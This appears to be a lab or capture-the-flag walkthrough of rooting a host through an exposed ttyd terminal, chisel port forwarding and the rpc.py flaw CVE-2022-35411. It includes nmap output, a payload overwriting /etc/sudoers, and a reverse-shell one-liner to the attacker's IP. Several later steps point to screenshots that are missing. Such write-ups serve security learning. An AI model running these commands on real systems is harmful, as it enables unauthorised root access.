









Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.224.210
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-21 11:07 IST
Warning: 192.168.224.210 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.224.210
Host is up (0.068s latency).
Not shown: 63195 closed tcp ports (reset), 2338 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 19.12 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,8000 192.168.224.210
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-21 11:09 IST
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 11:09 (0:00:00 remaining)
Nmap scan report for 192.168.224.210
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
8000/tcp open  http    ttyd 1.7.3-a2312cb (libwebsockets 3.2.0)
|_http-title: ttyd - Terminal
|_http-server-header: ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.19 seconds
```

Visiting web server on port 8000. We can run commands here.

So we get the reverse shell.


Let’s check privilege escalations using LinPEAS.sh


From the linpeas result, we notice local port 65432 that we did not discover from nmap result.

However we did not know what service it running, we tried to do reverse port forwarding via chisel and use nmap to scan the port, but can’t tell what service it running.
Make sure both machines running the same chisel version. A port forward cheat sheet can be found [here](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel#bkmrk-github). To do the individual port forwarding. Follow below step.

First we downloaded chisel directly using kali but after transferred it to the victim, it gave error while running. Because attacker and victim were not using the same chisel.


So we downloaded the older version of chisel using below link.
```sh
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gunzip chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64 chisel_old
chmod +x chisel_old
```


Previously typing only `chisel` works but now we need to type `./chisel` because previous version was installed in system path and this new version is installed locally.

Attacker machine

Before turning on the server, transfer the chisel to victim and give permission to it.

#At kali machine, the --port is for chisel client to connect to chisel server, you may use any port you like
```sh
./chisel_old server -p 8001 --reverse
```
#At target machine, we need to transfer the chisel binary file to the target machine
```sh
./chisel_old client ./chisel_old client 192.168.45.234:8001 R:65432:127.0.0.1:65432
```
Victim machine

Attacker machine

check if port forward to our kali machine.

Then you can just run `nmap -p 65432 127.0.0.1 -A` to enumerate the port. As per below.
```sh
nmap -sV -p 65432 127.0.0.1 -A -sT
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-21 11:50 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).

PORT      STATE SERVICE VERSION
65432/tcp open  http    Uvicorn
|_http-server-header: uvicorn
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 5.X|6.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6
OS details: Linux 5.0 - 6.2
Network Distance: 0 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.50 seconds
```
### ## Privilege Escalation

From linpeas result, we also notice root running something unusual.

Why do we say it is unusual?

Because it is located at `/opt`. `/opt` is intended to hold additional (optional) software and packages that are not part of the default installation.

Let’s check on the rpc.py. We notice it running RPC on the local port 65432. We then google “rpc.py exploit” and found CVE-2022–35411.
https://www.exploit-db.com/exploits/50983


Since the rpc.py is run by root, if we can exploit the vulnerability, we can get a root shell.

Checking on the exploit, we need to change the `exec_command` to whatever command we want, and run that exploit at the target machine. So I change to
```sh
exec_command(‘echo “user ALL=(root) NOPASSWD: ALL” > /etc/sudoers’)
```
You may change to whichever payload you want, like `sh -i >& /dev/tcp/$KaliIP/80 0>&1`. Transfer the exploit to the target machine, chmod +x exploit.py and execute it.



Transfer the exploit to the victim machine.


**Remove all the 3D from exploit and run it. Because..**

**Now, we face error in our payload. So we changed it following below steps.**




We ran the exploit and this time also we face the error. we changed it following below steps and run it and we got the user shell.


